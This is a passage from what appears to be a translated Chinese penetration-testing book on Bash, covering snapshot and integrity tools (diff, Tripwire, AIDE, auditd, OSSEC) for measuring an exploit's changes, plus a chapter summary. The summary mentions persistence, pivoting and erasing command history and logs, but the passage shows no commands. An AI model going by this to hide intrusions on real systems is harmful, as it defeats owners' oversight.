请记住，这些清理方法的有效性可能会因系统配置和现有监控工具的不同而有所变化。

适当的清理还依赖于详细记录您的活动并了解您的工具。使用`script`和`tee`命令保存活动日志文件也很有帮助，当您最终忘记为渗透测试报告拍摄截图时，可以挽救一天。始终注意您的渗透测试工具留下的妥协指标。有 Windows 和 Linux 工具可以在运行漏洞之前和之后进行快照和比较。这将使您能够在离线实验室环境中正确验证新工具的可信度，并提供您可以从工具和漏洞中预期的系统更改的快照。

以下是一些选择的 Linux 快照工具：

+   `diff** `和 cmp**：

    +   `diff`：一款命令行工具，逐行比较文件并输出差异。可用于比较配置文件、日志或其他基于文本的文件在运行漏洞之前和之后的情况。

    +   `cmp`：另一个命令行工具，逐字节比较两个文件，对于二进制文件比较很有用。

+   `Tripwire`：一款流行的完整性监控工具，可用于创建文件系统基线，并在利用漏洞后将其与系统状态进行比较。它可以警告您文件、目录和配置的更改。

+   **高级入侵检测环境（AIDE）**：AIDE 创建系统文件的校验和数据库，可用于比较运行漏洞之前和之后的系统状态以检测文件和目录的更改。

+   **Linux 审计系统（Auditd）**：Auditd 允许您监视和记录系统调用，并可配置为跟踪文件、目录或甚至某些类型的系统活动的更改。在运行漏洞之前和之后比较审计日志可以帮助识别更改。

+   `OSSEC`：一款开源**基于主机的入侵检测系统（HIDS）**，可监视系统文件、注册表键和其他关键区域的更改。它可以配置为警告您有关漏洞引起的修改。

以下工作流程将提供由工具或漏洞引起的更改的快照：

1.  **创建基准快照**：使用选定的工具在运行利用之前对系统进行快照。这个快照将作为*之前*状态。

1.  **执行利用**：在系统上执行您正在测试的利用。

1.  **创建利用后的快照**：使用相同的工具在运行利用后对系统进行快照。

1.  **比较快照**：使用工具的比较功能分析快照之间的差异，识别利用所做的任何更改。这将帮助您记录和分析利用对系统的影响。

本节提供了一个全面的清理和覆盖痕迹的入门指南。操作的两个好规则是不要造成伤害，并在操作后清理干净。始终遵循工作声明和参与规则文件，并在有疑问时与任何联系点或系统所有者沟通。

# 摘要

本章探讨了在渗透测试过程中保持持久性和执行枢纽操作的基本技术，重点是利用 Bash shell。我们首先研究了持久性的基础知识，包括通过 cron 作业、启动脚本和系统服务操纵建立对受损系统的长期访问的方法。然后，本章进一步发展到更复杂的持久性技术，为渗透测试人员提供了确保持续访问的全面工具包。

本章的后半部分将焦点转向网络枢纽，从基本概念开始，逐渐深入到高级策略。在这里，我们介绍了如何使用 SSH 和其他工具实现端口转发和隧道机制。本章以清理程序结束，详细介绍了您可以使用的方法来擦除命令历史记录，管理日志，并在测试过程中尽量减少留下的任何数字足迹。在整个本章中，我们提供了实用的 Bash 脚本和命令，并附有清晰的解释，以确保您可以有效地将这些技术应用于实际场景中。

在下一章中，我们将使用 Bash 脚本和工具探讨渗透测试报告，以及我们可以使用的工具来处理工具输出的数据并制定报告。
